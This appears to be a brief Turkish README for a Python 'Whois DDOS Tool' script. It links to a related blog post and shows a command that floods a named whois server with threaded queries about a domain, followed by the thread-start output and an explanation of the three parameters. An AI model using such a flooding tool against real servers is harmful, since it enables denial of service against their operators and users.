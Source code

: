 Whois DDOS Tool:
----------------

Betik ile ilgili blog yazisina http://www.agguvenligi.net/2013/06/whois-ddos-araci.html linkinden erisim saglanabilmektedir.

Betigin asagidaki sekilde calistirilmaktadir.

# ./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
0 : thread is started ...
1 : thread is started ...
2 : thread is started ...
3 : thread is started ...
4 : thread is started ...
5 : thread is started ...
6 : thread is started ...
7 : thread is started ...
8 : thread is started ...
9 : thread is started ...
10 : thread is started ...
11 : thread is started ...
12 : thread is started ...
13 : thread is started ...
14 : thread is started ...
15 : thread is started ...
16 : thread is started ...
17 : thread is started ...
18 : thread is started ...
19 : thread is started ...


Yazılım 3 adet parametre almaktadır: 1. parametre sorgulamanın gerçekleştirileceği whois sunucusunu, 2. parametre sorgulanacak domain adını ve son parametre kaç adet thread açılacağının belirtmektedir.
